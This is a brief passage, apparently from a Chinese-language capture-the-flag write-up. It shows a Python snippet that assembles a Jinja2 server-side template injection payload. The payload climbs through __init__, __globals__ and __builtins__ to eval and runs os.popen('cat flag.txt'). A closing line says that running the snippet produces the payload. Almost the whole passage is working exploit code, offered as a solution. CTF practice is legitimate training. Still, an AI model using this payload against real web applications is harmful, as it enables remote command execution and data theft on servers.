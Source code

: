 			  target = ("joiner" +
			      attr("__init__") + 
			      attr("__globals__") + 
			      item("__builtins__") +
			      item("eval") +
			      "(%s)" % (
			          string("__import__('os').popen('cat flag.txt').read()")
			      )
			  )
			  print(before + "{%print(PAYLOAD)%}".replace("PAYLOAD", target))
			  ```
			- 运行即可得到Payload
				-